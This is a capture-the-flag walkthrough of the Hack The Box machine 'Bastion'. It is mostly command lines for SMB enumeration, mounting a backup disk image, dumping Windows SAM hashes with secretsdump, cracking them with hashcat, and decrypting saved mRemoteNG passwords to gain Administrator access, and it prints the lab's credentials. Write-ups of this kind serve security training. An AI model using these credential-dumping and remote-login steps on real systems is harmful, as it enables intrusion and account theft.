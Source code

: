 # [Bastion](https://app.hackthebox.eu/machines/186)

Start with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.134 &
# UDP deep scan
sudo nmap -sU --script "default,safe" -p1-65535 -oA udp --open -Pn -sV 10.10.10.134 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.134
# UDP quick scan
sudo nmap -sU -sC -F --open -Pn -sV 10.10.10.134
```

The TCP quick scan returns the following:

![nmap_tcp_quick](./bastion/nmap_tcp_quick.png)

With these ports, the next to scan is SMB:

- https://book.hacktricks.xyz/pentesting/pentesting-smb

```bash
# try to connect without a username or password
smbclient -N -L //10.10.10.134
rpcclient -N 10.10.10.134
```

The `smbclient` comand returns some interesting results:

![shares](./bastion/shares.png)

Looking at each share shows the following:

```bash
$ip=10.10.10.134
for share in $(smbclient -N -L //$ip | grep Disk | sed 's/^[ \t]*//g' | cut -d ' ' -f 1); 
do 
  echo "-- \\\\$ip\\$share --"
  smbclient -N \\\\$ip\\$share -c 'ls;quit'; 
done
```

![share_listing](./bastion/share_listing.png)

The `Backups` share has some interesting files. 

![share_backup](./bastion/share_backup.png)

A Windows harddrive backup will contain a copy of the registry `HKEY_LOCAL_MACHINE` hive with user password hashes. This hash can then be used to authenticate with Windows services. First, mount the remote VHD file:

```bash
# install packages
sudo apt-get install libguestfs-tools cifs-utils
# make mount point
sudo mkdir -p /mnt/{remote,vhd1,vhd2}
# mount remote share using empty username or password
sudo mount -t cifs //10.10.10.134/Backups /mnt/remote -o user='',password=''
# mount the remote VHD files
sudo guestmount --add '/mnt/remote/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro /mnt/vhd1 -v
sudo guestmount --add '/mnt/remote/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro /mnt/vhd2 -v
```

It looks like the first VHD file `9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd` is empty, but the second one (`9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd`) does actually contain a backup:

![vhd_mounted](./bastion/vhd_mounted.png)

Look for the files associated with `HKEY_LOCAL_MACHINE` inside `%SystemRoot%\System32\config` or `\Windows\System32\config\`

- https://en.wikipedia.org/wiki/Windows_Registry

![hklm](./bastion/hklm.png)

The 3 hives `SAM`, `SECURITY`, and `SYSTEM` can be used to extract hashes as follows:

```bash
sudo cp /mnt/vhd2/Windows/System32/config/SAM .
sudo cp /mnt/vhd2/Windows/System32/config/SYSTEM .
sudo cp /mnt/vhd2/Windows/System32/config/SECURITY .
sudo chmod 666 SAM SYSTEM SECURITY
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
```

![hashes](./bastion/hashes.png)

It looks like there might be a default password used but just to be sure, try cracking the hashes from the output above:

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 1000 -a 0 --quiet --status hashes.txt rockyou.txt
```

![hashcat](./bastion/hashcat.png)

Nice! so that is a valid password. The original full TCP `nmap` scan should have finished by now and shows 2 more interesting open ports 5985/47001 that the quick `nmap` did not, which is WinRM:

- https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm

It is possible to try these credentials over WinRM as follows:

```bash
# install docker
sudo apt update
sudo apt install -y docker.io
sudo systemctl enable docker --now
sudo usermod -aG docker $USER # requires a logout and login to work
sudo docker run -it mcr.microsoft.com/powershell
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.134 -Authentication Negotiate -Credential $creds
```

However this does not work...

![docker](./bastion/docker.png)

Next, try the tool `impacket-wmiexec` just to be sure:

```bash
impacket-wmiexec L4mpje:bureaulampje@10.10.10.134
```

![wmiexec](./bastion/wmiexec.png)

Okay, maybe SSH?

![ssh](./bastion/ssh.png)

Nice! That is `user.txt`. During enumeration, the following interesting program is installed:

```bash
dir "C:\Program Files (x86)" /b
```

![programs](./bastion/programs.png)

`searchsploit` does not return anything for `mRemoteNG`, but a quick Google search shows a possible vulnerable password storage mechanism:

- https://www.rapid7.com/db/modules/post/windows/gather/credentials/mremote

According the the following outdated forum post titled `Password Recovery`, the password file is at `%appdata%\mRemoteNG\confCons.xml`:

> 1) Ensure that mRemoteNG is closed, then proceed with the next steps.
> 2) Navigate to the default mRemoteNG data folder.  Enter this path %appdata%/mRemoteNG into Start/Run and press enter.
> 3) Once inside the mRemoteNG default data folder  (C:\Users\<Your_Windows_Account>\AppData\Roaming\mRemoteNG)  right-click on confCons.xml and choose Edit.
> 4) On the second line, locate the Protected="a bunch of numbers/letters" string and replace it with the value below.
>
> Protected="GiUis20DIbnYzWPcdaQKfjE2H5jh//L5v4RGrJMGNXuIq2CttB/d/BxaBP2LwRhY"
>
> 5) Now save your changes and try opening mRemoteNG again. 

- http://forum.mremoteng.org/viewtopic.php?f=3&t=1552

Looking at that file on the target shows the following:

![confcons](./bastion/confcons.png)

One of the passwords is for the `Administrator` user! Cracking the hash is simple enough using code from here after some more Google searches:

- https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py

Install the required packages and run the script:

- **NOTE:** Code needs a small modification to change `from Cryptodome.Cipher import AES` to `from Crypto.Cipher import AES`

```bash
wget https://raw.githubusercontent.com/kmahyyg/mremoteng-decrypt/master/mremoteng_decrypt.py
python3 -m pip install pycryptodome
python3 mremoteng_decrypt.py -s 'aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=='
```

![admin_pass](./bastion/admin_pass.png)

Trying this password over WinRM provides `root.txt`!

```bash
impacket-wmiexec Administrator:thXLHM96BeKL0ER2@10.10.10.134
```

![root](./bastion/root.png)

